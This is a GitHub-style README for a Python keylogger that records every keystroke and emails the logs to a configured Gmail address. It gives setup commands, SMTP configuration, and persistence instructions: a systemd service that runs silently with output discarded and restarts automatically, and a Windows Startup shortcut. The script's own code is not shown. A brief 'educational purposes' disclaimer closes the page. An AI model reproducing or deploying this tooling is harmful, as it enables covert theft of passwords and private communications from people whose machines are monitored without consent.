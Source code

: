 ![Keylogger Example](https://scontent.fdac138-2.fna.fbcdn.net/v/t39.30808-6/472264040_122132259164552158_3957892283616768965_n.jpg?stp=dst-jpg_p180x540_tt6&_nc_cat=104&ccb=1-7&_nc_sid=127cfc&_nc_ohc=MzOvCal5FvwQ7kNvgEDQ3pm&_nc_zt=23&_nc_ht=scontent.fdac138-2.fna&_nc_gid=Ap4EQYUWUEv_a5qzClT7PGa&oh=00_AYAdH6000cJJqRiGnBVdekLMspQXCCr7LWIo8QNKIWBlhQ&oe=6778BB28)

# Keylogger Script

This repository contains a Python-based keylogger script that logs keystrokes and sends them via email. It includes robust error handling, log management, and retry mechanisms for email delivery.

## Features

- **Keystroke Logging:** Captures all keystrokes, including special keys like `Enter`, `Backspace`, and `Space`.
- **Email Notification:** Sends the logged keystrokes to a specified email address.
- **Retry Mechanism:** Retries email sending up to 3 times in case of failures.
- **Log Management:** Clears logs after successfully sending them via email to prevent clutter.
- **Graceful Exit:** Stops logging and sends logs when the `Esc` key is pressed.
- **Automatic Startup:** Instructions included for setting up the script to run automatically at system startup (Linux and Windows).

## Prerequisites

1. Python 3.x
2. Required Python libraries:
   ```bash
   pip install pynput
   ```
3. A Gmail account with app-specific password (if 2-Step Verification is enabled). Refer to the [Google App Passwords Guide](https://support.google.com/accounts/answer/185833?hl=en) to create one.

## Configuration

Update the following variables in the script with your email credentials:

```python
EMAIL_ADDRESS = 'your-email@gmail.com'
EMAIL_PASSWORD = 'your-app-password'
SMTP_SERVER = 'smtp.gmail.com'
SMTP_PORT = 587
```

## Usage

### Running the Script

Run the script in your terminal:

```bash
python3 keylogger.py
```

### Stopping the Script

Press the `Esc` key to stop the keylogger. This will also send the collected logs to the configured email address and clear the log file.

### Automatic Startup Setup

#### Linux (Using Systemd)

1. Create a systemd service file:
   ```bash
   sudo nano /etc/systemd/system/keylogger.service
   ```

2. Add the following content:

   ```ini
   [Unit]
   Description=Keylogger Script
   After=multi-user.target

   [Service]
   ExecStart=/usr/bin/python3 /path/to/keylogger.py
   WorkingDirectory=/path/to
   StandardOutput=null
   StandardError=null
   Restart=always

   [Install]
   WantedBy=multi-user.target
   ```

   Replace `/path/to/keylogger.py` with the full path to your script.

3. Reload systemd and enable the service:
   ```bash
   sudo systemctl daemon-reload
   sudo systemctl enable keylogger.service
   sudo systemctl start keylogger.service
   ```

4. Verify the service is running:
   ```bash
   sudo systemctl status keylogger.service
   ```

#### Windows

1. Press `Win + R` and type `shell:startup`, then press Enter.
2. Create a shortcut in the Startup folder with the following target:
   ```
   C:\Python39\python.exe C:\path\to\keylogger.py
   ```
3. The script will run automatically on login.

## Security Notice

This script is for educational purposes only. Unauthorized use of keyloggers is illegal and unethical. Use it responsibly and only on systems where you have explicit permission.

## Disclaimer

The author is not responsible for any misuse of this script. Always use it in compliance with applicable laws and regulations.
